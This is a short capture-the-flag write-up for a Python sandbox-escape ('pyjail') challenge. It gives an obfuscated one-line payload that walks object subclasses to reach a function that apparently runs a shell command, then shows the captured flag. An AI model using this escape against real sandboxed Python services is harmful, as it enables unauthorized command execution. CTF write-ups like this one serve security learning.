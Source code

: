 # Virus Attack
> One day they woke me up, so I could live forever But immortality's a curse, now forever I'll endure

## About the Challenge
This chall is about pyjail. We need to connect first to `nc misc.bbctf.fluxus.co.in 2001` and then escape from python sandbox

## How to Solve?
To escape the python sandbox, the payload will looks like this
```python
[*().__class__.__base__.__subclasses__()[50+50+37].__init__.__globals__.values()][47]([].__doc__[5+5+7::79])
```
Inspired by https://okman.gitbook.io/okman-writeups/miscellaneous-challenges/redpwnctf-albatross writeup, but there are some modification because the program will not run if we input number `1` and `8`.

```
flag{S0_YoU_KN0W_How_70_m0d1fy_vARi@bl35_1n_Py}
```